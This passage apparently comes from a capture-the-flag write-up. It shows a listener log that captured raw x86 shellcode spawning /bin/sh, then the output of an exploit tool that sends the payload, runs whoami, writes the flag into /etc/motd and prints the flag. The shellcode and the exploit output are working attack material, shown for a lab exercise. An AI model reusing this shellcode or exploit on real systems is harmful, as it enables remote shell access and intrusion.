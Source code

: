 Listener:

```
Connected by ('152.14.93.208', 22389)
b'\xebUAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\xc7\xff\xff[\x8ds\x081\xc9\x83\xc1\x041.\x83\xc6\x04\xe2\xf9S\xba\x10\x00\x00\x00\x8dK\x08\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x80[1\xc9QS\x89\xe11\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xeb\xfe\xe8\xc4\xff\xff\xff/bin/sh\x002DB18b3E6f0eeDBF\n'
2DB18b3E6f0eeDBF
b'whoami\n'
b'echo "flag{tw0_p1u$_t00_equ@15_wh@t3v3r_th3_p@rty_s@y5_c0mr@d3}" > /etc/motd\n'
b''
```

throw binary:

```
youngPioneer@fd8402c5dcd0:~$ ./throw xx.xxx.xxx.xx
$<5>[$<2>+] Opening connection to xx.xxx.xxx.xx on port 80: Done
$<5>Sending sploit...
W00t! Sending `whoami`...
W00t! Sending `echo "flag{tw0_p1u$_t00_equ@15_wh@t3v3r_th3_p@rty_s@y5_c0mr@d3}" > /etc/motd`
[$<2>*] Closed connection to xx.xxx.xxx.xx port 80
```

There's our flag!

**flag{tw0_p1u$_t00_equ@15_wh@t3v3r_th3_p@rty_s@y5_c0mr@d3}**
